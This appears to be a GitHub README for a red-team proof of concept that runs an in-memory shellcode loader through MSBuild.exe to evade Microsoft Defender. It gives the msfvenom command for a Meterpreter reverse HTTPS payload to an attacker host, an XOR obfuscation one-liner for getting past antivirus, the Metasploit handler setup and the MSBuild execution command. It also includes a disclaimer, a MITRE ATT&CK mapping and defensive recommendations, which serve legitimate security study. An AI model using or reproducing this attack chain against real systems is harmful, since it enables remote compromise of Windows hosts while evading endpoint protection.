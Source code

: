 # Shellcode Loader via MSBuild-Compatible C# Application

## Overview

This repository contains a proof-of-concept red team activity that demonstrates how to execute a malicious payload in memory using `MSBuild.exe`, a trusted signed Windows binary. The project simulates a **Living Off the Land Binary** (LOLBin) attack technique in which a C# shellcode loader is compiled and executed through MSBuild, bypassing (temporarily) Microsoft Defender through in-memory execution and obfuscation.

The payload establishes a reverse HTTPS connection to a Metasploit C2 server. This technique aligns with [T1127.001 – Trusted Developer Utilities Proxy Execution: MSBuild](https://attack.mitre.org/techniques/T1127/001/) and is intended for educational and research purposes in a controlled environment.

    You can refer to [this video](https://youtu.be/E3ygajc9rsM) to see how I pursued the attack in a controlled environment.

## Disclaimer

This project is intended **strictly for educational and authorized security research purposes**. All activities must be conducted in a controlled, isolated environment with proper authorization.

    Do not use these techniques on systems you do not own or lack explicit permission to test. Unauthorized use may violate laws and ethical guidelines, and could result in disciplinary or legal action.

The author assumes no responsibility for misuse or damage resulting from the use of this code.

## Prerequisites

To successfully compile and execute this project, the following tools and environment configurations are required:

- Windows 10 Pro virtual machine
- Microsoft Visual Studio with `.NET Framework 4.7.2` or higher installed
- Access to `MSBuild.exe` (commonly located under Visual Studio installation path)
- Metasploit Framework installed on a Linux-based attack machine
- Working knowledge of C#, MSBuild, and basic red team operations
- Network configuration that allows reverse HTTPS communication between victim and C2 server

This project was tested in a QEMU Virtual Machine with an `non-activated Windows 10 Pro Version 22H2 and OS build 19045.2965`.

## Files

This project includes three primary files required for execution. Each plays a critical role in the simulation workflow.

### C# Shellcode Loader

The C# program used in this simulation serves as a minimalist shellcode loader, purpose-built to be executed through MSBuild.exe as part of a Living Off the Land Binary (LOLBin) strategy. Its primary objective is to allocate executable memory within the current process, decrypt a malicious payload from an external file, and execute it in-memory via a newly created thread. This approach is particularly effective for bypassing Microsoft Windows Defender, as it avoids writing executables to disk and leverages native Windows API calls, often trusted by endpoint protection systems

It performs the following actions:

- Reads and decrypts an XOR-obfuscated payload from config.bin
- Dynamically loads native Windows API functions (NtAllocateVirtualMemory, CreateThread)
- llocates executable memory in the current process
- Copies the shellcode to memory and executes it in a new thread

**The shellcode is never written to disk after decryption**, allowing for stealthy in-memory execution.

### MSBuild Project File

The C# build file used in this simulation is an MSBuild project file, defined in XML format. It serves as a build automation script that instructs MSBuild.exe (the Microsoft Build Engine) on how to compile and execute the C# shellcode loader. Functionally, it plays a role similar to a Makefile in C/C++ development environments.

Executing this file with MSBuild.exe triggers both compilation and execution phases. This enables execution through a trusted binary, facilitating LOLBin abuse and Defender evasion.

### Encrypted Payload

The final component of the attack chain is the malicious payload, which is responsible for establishing a reverse shell to a remote Command and Control (C2) server. This payload is generated using the ‘msfvenom’ utility, a standard tool from the Metasploit Framework used to craft custom shellcode for various platforms and architectures

To generate the raw payload we use the following command:

```bash
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=<attacker-ip> LPORT=<port> -f raw -o config.bin
```

To encrypt the payload, we use the following command:

```bash
xxd -p config.bin | tr -d '\n' | fold -w2 | while read byte; do printf "%02x" $(( 0x$byte ^ 0xAA )); done | xxd -r -p > config.bin
```

A quick explanaition of each part of the encryption script:

- `xxd -p config.bin`: Converts the binary file `config.bin` into a plain hexadecimal string with no addresses.
- `tr -d '\n'`: Removes all newlines from the hex string to create a continuous byte stream.
- `fold -w2`: Breaks the string into two-character groups
- **while; do; done block**: Reads each byte, applies XOR with 0xAA, and prints the result in two-digit hexadecimal format.
- `xxd -r -p > config.bin`: Converts the hex stream back into binary format and writes it back to `config.bin`

This simple obfuscation helps temporarily bypass static signature detection by antivirus software such as Microsoft Defender. This approach doesn’t offer strong cryptographic protection, therefore, more robust encryption schemes like AES are recommended for more advanced attacks.

## roof of Concept Execution

1. On your Kali Linux or Metasploit-enabled system, run:

```bash
msfconsole
use exploit/multi/handler
set PAYLOAD windows/x64/meterpreter/reverse_https
set LHOST <your-ip>
set LPORT <your-port>
run -j
```

2. On the target Windows machine, execute the .csproj file using MSBuild.

```ps
"C:\Program Files\Microsoft Visual Studio\2022\Community\MSBuild\Current\Bin\MSBuild.exe" main.csproj /p:Configuration=Release /t:Run
```

3. Once the session is active, interaction with the system is possible using Meterpreter. However, minimal activity is recommended to avoid triggering Defender’s behavioral detection,

## Mitre Att&ck Mapping

This proof of concept simulates several tactics and techniques as defined in the MITRE ATT&CK Framework, commonly associated with real-world adversary behavior:

|      **Tactic**     |                             **Technique**                            |                                        **Justification**                                        |
|:-------------------:|:--------------------------------------------------------------------:|:-----------------------------------------------------------------------------------------------:|
|   Defense Evasion   | T1127.001 – Trusted Developer Utilities Proxy Execution: MSBuild     | The payload is compiled and executed via `MSBuild.exe`, a trusted signed Windows binary.        |
|   Defense Evasion   | T1027.013 -  Obfuscated Files or Information: Encrypted/Encoded File | The shellcode is XOR-obfuscated to bypass static signature detection by antivirus tools.        |
|   Defense Evasion   | T1027.009 - Obfuscated Files or Information: Embedded Payloads       | The shellcode is loaded into memory from an encrypted file and executed without writing to disk post-load. |
|   Defense Evasion   | T1620 - Reflective Code Loading                                      | The shellcode is dynamically loaded into memory and executed from a new thread within the same process using native Windows API functions.            |
| Command and Control | T1071.001 - Application Layer Protocol: Web Protocols (HTTPS)        | TThe payload establishes a reverse HTTPS session with the attacker's Metasploit handler.       |

## Defensive Recommendations

To detect and mitigate techniques demonstrated in this proof of concept, defenders should adopt a layered security approach that incorporates both prevention and detection strategies. Below are key recommendations.

- Implement behavioral monitoring to detect LOLBin abuse
- Use Sysmon or EDR solutions to monitor:
   - Execution of uncommon binaries like MSBuild.exe outside development environments
   - Memory allocation with `PAGE_EXECUTE_READWRITE` permissions
   - Thread creation from suspicious memory regions
- Enforce application whitelisting using tools like AppLocker or Windows Defender Application Control (WDAC) to block execution of `MSBuild.exe` by non-developer users or not allowed/common environments.
- Monitor and restrict access to developer tools on systems where they are not explicitly required.
- Inspect outbound HTTPS traffic for patterns resembling reverse shell connections
- Use proxy logging and TLS inspection (where appropriate) to monitor C2-like behavior
- Monitor Windows Defender and Event Viewer logs for behavior-based detections
